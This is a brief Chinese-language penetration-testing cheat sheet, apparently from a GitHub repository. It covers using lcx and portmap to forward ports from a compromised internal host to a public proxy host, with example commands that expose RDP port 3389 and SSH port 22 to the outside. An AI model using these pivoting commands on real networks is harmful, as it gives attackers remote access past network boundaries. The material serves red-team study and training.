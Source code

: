 lcx 分为 Windows 版和 Linux 版，Linux 版叫 portmap

### Windows

- 内网端口转发







```none
内网失陷主机
lcx.exe -slave rhost rport lhost lport

公网代理主机
lcx.exe -listen lport1 lport2
```







```none
内网失陷主机
lcx.exe -slave 123.123.123.123 4444 127.0.0.1 3389

公网代理主机
lcx.exe -listen 4444 5555
```

在建立连接后，访问公网代理主机的 5555 端口就能访问到内网失陷主机的 3389 端口了。

- 本地端口映射

如果目标主机不能出网，这时可以利用内网中能够出网的主机，将其不能出网的主机端口映射到自身上，再借助端口转发到公网进行访问。







```none
lcx.exe -tran 53 <目标主机 IP 地址> 3389
```

### Linux

- 内网端口转发







```none
内网失陷主机
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 <公网主机 IP> -p2 4444

公网代理主机
./portmap -m 2 -p1 4444 -h2 <公网主机 IP> -p2 5555
```
